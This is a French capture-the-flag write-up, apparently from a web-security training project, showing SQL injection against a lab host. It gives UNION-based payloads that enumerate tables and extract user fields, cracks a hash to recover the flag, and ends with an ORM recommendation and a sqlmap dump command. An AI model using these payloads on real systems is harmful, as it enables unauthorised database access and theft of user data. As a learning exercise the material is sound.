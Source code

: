 # SQL INJECTION

http://192.168.1.16/index.php?page=member

1. Hmmm ... 

    1 OR 1=1 
    1 ORDER BY 2
    1 ORDER BY 3
    1 UNION SELECT database(), user()

2. Intéressant ...

    1 OR 1=1 UNION SELECT null, table_name FROM information_schema.tables  
    1 OR 1=1 UNION SELECT null, column_name FROM information_schema.columns
    1 or 1=1 UNION select table_name, column_name FROM information_schema.columns

    Avec ces injections on peut structurer la DB : 

    users       : user_id, first_name, last_name, town, country, planet, Commentaire, countersign
    guestbook   : id_comment, comment, name
    list_images : id, url, title, comment
    vote_dbs    : id_vote, vote, nb_vote, subject

3. Continuons ...

    1 or 1=1 UNION SELECT first_name, last_name FROM users
    [...]
    1 or 1=1 UNION SELECT Commentaire, countersign FROM users

Et voilà ! On obtient "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
Il s'agit d'un hash MD5 (https://md5hashing.net/hash_type_checker)
Qui contient "FortyTwo", soit "fortytwo" (https://md5decrypt.net/#answer) 
En SHA256, on obtient : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# PROTECTION

Utiliser un ORM, tout simplement ;) Cela réduit la quantité de code qui doit être écrit et homogénéise le code, mais peut nuire aux performances.
Exemple d'ORM : Active Record pour Ruby on Rails, Eloquent en PHP, Django en Python, Mongoose pour Node

Une fois un ORM mis en place, il est possible de s'assurer que tout est sécurisé par rapport aux injections SQL avec SQLMAP :

    sqlmap -u "http://192.168.1.16/?page=member&id=1&Submit=Submit#" --dump -T users

# BONUS

Cheat-sheet sur les injections SQL : https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/?utm_source=hacksplaining&utm_medium=post&utm_campaign=articlelink